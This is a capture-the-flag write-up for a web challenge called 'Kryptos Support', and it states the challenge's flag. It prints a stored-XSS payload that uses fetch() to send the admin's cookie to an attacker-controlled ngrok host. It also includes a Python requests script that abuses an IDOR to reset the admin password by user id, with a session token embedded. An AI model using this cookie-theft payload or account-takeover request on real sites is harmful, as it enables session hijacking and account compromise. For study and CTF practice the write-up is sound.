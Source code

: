 



# **Kryptos Support**



## Challenge Author(s):
Ulysses

## Description:
`
The secret vault used by the Longhir’s planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?`

## Target: docker ip on demand

## Difficulty/Points: 300/easy

## Flag: HTB{x55_4nd_id0rs_ar3_fun!!}

## Challenge

The challenge is presented with a page with a red theme that has a textbox on which we can write anything. Underneath we have a button that when pressed shows a message about sending a ticket to an admin. There is also a button that if pressed takes me to a login page whose credentials I don't know.

# Solution 

I first try to see what this textbox is vulnerable to. After many attempts I realise that it is vulnerable to XSS. By trying this simple payload I get a request from the victim site obtaining the admin's cookie. Replacing my current cookie with the admin's cookie I head to his webpage and see my own and other users' tickets that have been submitted.

<script> fetch('https://fdf1-109-52-216-63.ngrok.io/c='+document.cookie) </script>

after doing so, it is possible to update the admin's password simply by going to the password change page visible to the admin, intercepting the request with burp and then sending the chosen password to the password update endpoint with the admin's id, which is trivially 1. I attach the paylaod I used for simplicity.

```python
import requests

burp0_url = "http://138.68.189.179:32763/api/users/update"
burp0_cookies = {"session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjcyNzZ9.tbovyxtI9JAbDeGwfx8EqYal2iWilMBHg3a89R87_zg"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://138.68.189.179:32763", "Referer": "http://138.68.189.179:32763/settings", "Accept-Encoding": "gzip, deflate", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"password": "a", "uid": "1"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
```